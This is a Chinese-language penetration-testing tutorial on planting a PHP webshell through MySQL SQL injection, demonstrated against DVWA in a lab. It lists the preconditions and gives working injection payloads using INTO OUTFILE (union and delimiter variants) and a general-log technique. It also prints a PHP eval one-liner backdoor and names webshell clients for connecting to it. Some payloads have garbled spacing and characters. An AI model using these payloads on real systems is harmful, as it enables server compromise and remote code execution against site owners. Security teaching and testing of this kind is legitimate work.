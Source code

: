# webshell写入

## **1必备条件**

想要成功向MySQL写入WebShell需要至少满足以下4个条件：

① 数据库的当前用户为ROOT或拥有FILE权限；  
② 知道网站目录的绝对路径；  
③ PHP的GPC参数为off状态；  
④ MySQL中的secure\_file\_priv参数不能为NULL状态。

注意：关于其中第4点，secure\_file\_priv参数是MySQL用来限制数据导入和导出操作的效果，如果这个参数被设为了一个目录名，那么MySQL会允许仅在这个目录中可以执行文件的导入和导出，例如LOAD DATA、SELECT。。。INTOOUTFILE、LOAD\_FILE\(\)等。如果这个参数为NULL，MySQL会禁止导入导出操作，但是这只是意味着通过outfile方法写入WebShell是无法成功的，但是通过导出日志的方法是可以的。

## **2写入方法**

向MySQL写入WebShell的方式一共有两种，分别是：1、使用outfile方法，2、基于log日志写入法。

Outfile方法其实是Mysql提供的一个用来写入文件的函数，当我们可以控制写入的文件内容以及文件的保存路径时，我们就可以达到传入WebShell的目的。当我们可以使用union查询时，我们构造一个如下语句，就可以达到效果：

Union select “这里是WebShell” into outfile “Web目录”；

当我们无法使用union时，还有一些其他方法也可以实现（利用分隔符写入）：

?id=1 INTO OUTFILE '物理路径' lines terminatedby （这里是WebShell）\#

?id=1 INTO OUTFILE '物理路径' fields terminatedby （这里是WebShell）\#

?id=1 INTO OUTFILE'物理路径'columns terminatedby （这里是WebShell）\#

?id=1 INTO OUTFILE '物理路径' lines startingby （这里是WebShell）\#

基于log日志写入的方法其实是先将日志文件的导出目录修改成Web目录，然后执行了一次简单的WebShell代码查询功能，此时日志文件记录了此过程，这样再Web目录下的日志文件就变成了WebShell。例如，我们先设置日志文件的导出目录：set global general\_file = ‘Web目录’；然后执行一遍：select “WebShell代码”；即可。

## **3使用OUTFILE方法写入Webshell**

### **（1）实验前准备：**

检查secure\_file\_priv是否开启：show variables like‘%secure%’;确认其不为NULL。有值或为空都可以。（若是为NULL，则需要到my.ini文件中手动修改）

![](https://image.3001.net/images/20200810/1597037962.png!small)

检查当前用户是否具备写权限：selectuser,file\_priv from mysql.user;确认其用户的值为Y即代表此用户拥有文件写入权限。

![](https://image.3001.net/images/20200810/1597037979.png!small)

### **（2）确认注入点**

http:/192.168.20.35/DVWA-master/vulnerabilities/sqli/?id=1;

参数ID存在SQL注入漏洞

http:/192.168.20.35/DVWA-master/vulnerabilities/sqli/?id=1’union select version\(\),user\(\) \#

![](https://image.3001.net/images/20200810/1597037995.png!small)

### **（3）利用outfile写入shell文件**

若secure\_file\_priv为空，则可以向任意目录写入文件，若secure\_file\_priv有值，则只能向该值指向的目录写入文件，因为我们的值为空，所以就任意目录写入，但因为还需要工具进行连接，所以最好放在网站的根目录下。

PAYLOAD（使用Union查询注入）：1‘unionselect1,”&lt;?phpeval\(\#\_POST\[‘pass’\]\); ?&gt;” into outfile“F:\\PhpStudy20180211

\\PHPTutorial\\WWW\\Tp.php” \#

PAYLOAD（不用Union）：1’intooutfile“F:\\Php、Study2018021\\PHPTutorial\\WWW\\Tp.php” fields terminated by “&lt;?phpeval\(\#\_POST\[‘pass’\]\); ?&gt;” \#

![](https://image.3001.net/images/20200810/1597038012.png!small)

文件已被写入到网站的根目录下，接下来就可以使用连接工具（蚁剑、菜刀、冰蝎等）进行连接了。

![](https://image.3001.net/images/20200810/1597038052.png!small)

## **4、使用导入日志的方法写入Webshell**

### **（1）实验前准备：**

检查当前mysql下log日志是否开启，以及log的默认地址在哪里：show variables like ‘%general%’;

![](https://image.3001.net/images/20200810/1597038071.png!small)

将log日志开启，并设置日志的写入位置:

Set globalgeneral\_log = on;

Set globalgeneral\_log\_file = ‘F:/test.php’;

![](https://image.3001.net/images/20200810/1597038089.png!small)

### **（2）使用写入日志再读取的方法**

直接在SQL注入点，使用查询语句，添加WebShell代码，如下：

Select '&lt;?phpphpinfo\(\);?&gt;';

此时这段WebShell代码已经被记录到日志文件中了，接下就可以使用连接工具进行连接了。

![](https://image.3001.net/images/20200810/1597038104.png!small)

